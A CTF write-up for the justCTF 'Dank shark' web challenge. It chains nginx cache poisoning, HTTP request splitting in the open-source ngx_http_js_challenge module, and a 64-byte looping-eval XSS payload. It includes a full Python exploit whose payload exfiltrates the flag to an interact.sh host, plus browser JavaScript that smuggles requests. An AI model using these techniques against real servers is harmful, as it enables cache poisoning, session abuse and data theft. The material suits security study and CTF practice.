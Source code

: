 # Dank shank

> Strong shark protection!
> 
> Attachment: https://s3.cdn.justctf.team/bcbaa7ae-cc27-494f-8c65-6c1e22953e05/shark.zip

## Challenge

The hard of this challenge is evaluating a long js payload ( for fetching the flag and stuff ) with only 64 bytes of html.
Normally you would do `<img src=1 onerror=eval(window.name)>` but the xss bot doens't have access to internet.

## admin page

```html
<html>
<head>
    <title>Dank Shark</title>
</head>
<body>
<div>
    Last comment nickname: <div id="nickname">Maybe loading...</div>
</div>
</body>
<script>
    async function getNickname() {
        let data;
        try {
            const resp = await fetch(`/admin/api/v1/last_nickname`);
            if(resp.status !== 200) {
                throw Error('status not 200');
            }
            data = await resp.text();
            data = JSON.parse(data)['response']['nickname'];
        } catch (e) {
        }
        return data;
    }

    (async () => {
        document.querySelector("#nickname").innerHTML = await getNickname();
    })()
</script>
</html>
```

xss bot automatically goes to this page. The response of `last_nickname` is controllable by us but there is a check on that endpoint
that checks if the remote ip is not locahost. 
The first challenge is to bypass this mechanism 
## First part - Cache poisoning

There is a cache poisoning vulnerablity that is due to the misconfiguration of nginx.

```
proxy_cache_key "$language$request_uri";
```

`$request_uri` is `request_path+request_querystring` and `$language` is the `Accept-language` header of the request.

The requester ip address is not inside the cache key so we can use this vulnerablity to bypass the `last_nickname` endpoint protection.

## Second part - Weird http-js-challenge nginx module

This bug was quite fun to spot and exploit.
We actually found this bug by luck and somebody sent a POST request to somewhere and saw two responses in body.
After looking into this behavior, We concluded that the module doesn't clean the request body from the request buffer and we can get http request splitting primitives with it. 

```
GET / HTTP/1.1\r\n
Host: example.org\r\n
Content-Length: 30\r\n
\r\n
GET /hack HTTP/1.1\r\n
example: 
```

When the nginx module receives the above request, it doesn't read the body so the next request that it handles is the `GET /hack` request.
The splitted request is not fully sent (The last two CRLFs are not sent) so the next request that nginx receives goes inside that request.

That means that next request that the module handles is
```
GET /hack HTTP/1.1\r\n
example: GET / HTTP/1.1\r\n
Host: example.org\r\n
Header: header\r\n
\r\n
```

More details from the author:
> The bug in the js_challange module is here:
> 
> https://github.com/simon987/ngx_http_js_challenge_module/blob/master/ngx_http_js_challenge.c#L240
> 
> there is a missing ngx_http_discard_request_body(r)
> 
> So this module doesn't clean the request body
> 
> It is only exploitable with specific nginx configuration (keepalive connection on proxy_pass)

## Third part - Chaining the bugs

The following payload contains an infinite loop that keeps evaluating the `/last_nickname` endpoint response.

```html
<style onload="z=_=>getNickname().then(r=>eval('`'+z()+r));z()">
```

> This payload is the result of hours of hard-work and pain :')

Because this payload keeps requesting `/last_nickname`, we can use the request smuggling vulnerablity to change
the path of the request to somewhere with longer length limit.

Execute the following exploit before triggering the xss bot.
```py
#!/usr/bin/env python3
import requests
import time

# target = 'http://acrfd84eanl1n3w82ogr1xrec4habm.dank-shark.web.jctf.pro'
# resCookie = '26E78C1654D95E4FBBF6090FCFB9D2CDF4D8270570832'

target = 'http://7yovvqosk90obni8thovwgvek6cnr4.dank-shark.web.jctf.pro'
resCookie = '7174E38A014BD0E4CFDA2F8059896856FA6F13623486'

firstPayload = """`;fetch(`//0:1337`).then(r=>r.text()).then(r=>fetch(`//`+r.replace(`{`,``).replace(`}`,``)+`.cajv6f92vtc00008znt0gfjpu8ayyyyyb.interact.sh/`));//"""
print(len(firstPayload))

r = requests.post(f'{target}/api/v1/add_comment',cookies={
    'res':resCookie
},json={
    'comment':firstPayload,'nickname':"AAA"
})
print(r.text)


firstPayload = """<style onload="z=_=>getNickname().then(r=>eval('`'+z()+r));z()">"""
print(len(firstPayload))

r = requests.post(f'{target}/api/v1/add_comment',cookies={
    'res':resCookie
},json={
    'comment':"FFFFFFFFFff",'nickname':firstPayload
})
print(r.text)

while(1):
    requests.get(f'{target}/admin/api/v1/last_nickname',cookies={
        'res':resCookie
    })
    time.sleep(0.1)
```

And Execute the following payload on your browser about 10 seconds after clicking on the xss-bot visit button.
```js
    res = '7174E38A014BD0E4CFDA2F8059896856FA6F13623486'
    setInterval(()=>{
        fetch('/admin/changeroute',{method:"POST",body:"GET /api/v1/comments HTTP/1.1\r\nCookie:res="+res+"\r\nV:"})
    },100)
```

> by renwa,as3617,parrot
